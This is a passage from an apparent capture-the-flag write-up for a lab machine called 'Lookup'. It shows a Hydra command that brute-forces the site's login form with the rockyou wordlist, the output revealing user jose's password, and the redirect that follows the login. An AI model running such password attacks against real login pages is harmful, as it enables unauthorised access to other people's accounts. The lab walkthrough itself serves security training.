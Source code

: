 ![Screenshot](/assets/img/Lookup/4.png)

So, We've got two valid usernames here --> `admin` and `jose`

let's try to use `jose` and brute force the password..


```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -V
```

![Screenshot](/assets/img/Lookup/5.png)

```bash
[80][http-post-form] host: lookup.thm   login: jose   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-11-29 10:43:11
```

let's try logging in with this credinital...

![Screenshot](/assets/img/Lookup/6.png)

we've got this response, which means we've been redirected to --> `http://files.lookup.thm/`

![Screenshot](/assets/img/Lookup/7.png)
